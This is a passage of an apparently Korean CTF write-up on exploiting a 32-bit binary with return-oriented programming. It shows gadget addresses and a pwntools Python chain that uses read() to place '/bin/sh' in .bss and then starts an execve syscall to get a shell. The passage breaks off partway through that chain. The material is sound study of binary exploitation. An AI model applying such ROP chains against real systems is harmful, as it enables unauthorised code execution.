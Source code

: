 syscall

- `/bin/sh` 문자열이 존재하지 않기 때문에 ROP를 바탕으로 read 함수로 입력을 받을 것이며 입력을 받게 되는데 NX 보호 기법을 우회하기 위해 `.bss` 섹션의 첫 번째 주소 부분에 데이터를 삽입할 것이다.
- 마지막으로 execve syscall을 바탕으로 `.bss` 섹션에 존재하는 `/bin/sh` 문자열을 실행하게 된다면은 쉘을 딸 수 있겠다.

## ROP Code Gadget

- ROPgadget 도구를 사용하여 필요한 Gadget을 찾아 보겠다.
![./17.png](./17.png)

ROP Gadget

## ROP

```c
read(0, &.bss, length(/bin/sh\x00)) 

execve(.bss, 0, 0)
```

```python
#ROP
pppr = 0x806f370
peax = 0x80bb496
syscall = 0x806fa20
    
# read
rop = p32(peax)
rop += p32(0x3)
rop += p32(pppr)
rop += p32(len("/bin/sh\x00"))
rop += p32(e.bss())
rop += p32(0x0) 
rop += p32(syscall)

# execve    
rop+= p32(peax)
rop+= p32(0xb)
rop+= p32(pppr)
rop+= p32(0x0)
```
